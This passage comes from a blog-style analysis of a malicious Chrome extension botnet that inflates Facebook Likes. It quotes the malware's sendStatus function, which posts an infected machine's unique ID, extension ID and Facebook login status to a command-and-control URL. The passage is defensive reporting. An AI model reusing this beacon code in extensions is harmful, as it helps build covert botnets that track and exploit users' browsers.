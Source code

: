 It seems likely to me that the page in question must've bought some Likes from some dodgy provider (which, side note, is an adjective that applies to all Facebook Like sellers) that creates Likes from infected computers instead of clickfarms or something. Though this is pure speculation, I'm certain that something fishy is going on with this page.

### Subscribing you to YouTube channels
I didn't get any instructions to subscribe to any YouTube channels, but the code does contain a function that does just that. 

### Reporting back to the server
The extension can also report back to the <abbr title="Command and Control">C&C</abbr> server about its current status, through the following function:

{% highlight javascript linenos %}
function sendStatus(data) {
	chrome.storage.local.get('uid', function(storage) {
		data.id = storage.uid;
		data.extension_id = chrome.runtime.id;
		data.fbLoginStatus = fbLoginStatus;
		
		var xhr = new XMLHttpRequest();
		
		xhr.open('POST', STATUS_URL, true);
		xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
		xhr.send(queryString.stringify(data));
		
		console.log('Status data has been sent', data);
	});
}
{% endhighlight %}

It sends three things back to the server:

1. The <abbr title="Unique Identifier">UID</abbr>, a unique ID string that identifies the infected machine
2. The extension ID, a string corresponding to the extension that 
3. Whether the infected machine currently is signed into Facebook

I'm taking it that the malware operators use this information to judge the exact size and activity of their botnet, as these are factors that determine its value on the black market.

### And potentially much more
The extension is always on the lookout for a new version of the payload. Though I haven't witnessed it change, it could very well evolve and gain new capabilities.

Since the malware has permission to "read and change all your data on the websites you visit", its operators could gain total control over everything that happens in your browser. They could potentially read your emails, steal all your login credentials, have you DDoS someone, mine Bitcoin, seed pirated content... You name it.

Your local files are off-limit though, if that's of any consolation.

## Taking the botnet down
Though most of the Viralands extensions have been taken down from the Chrome Webstore now, that doesn't change anything for the 132,265 infected computers. To the best of my knowledge (I couldn't find anything confirming it though), an extension stays installed even after it has been removed from the Webstore, so every infected machine effectively stays infected.
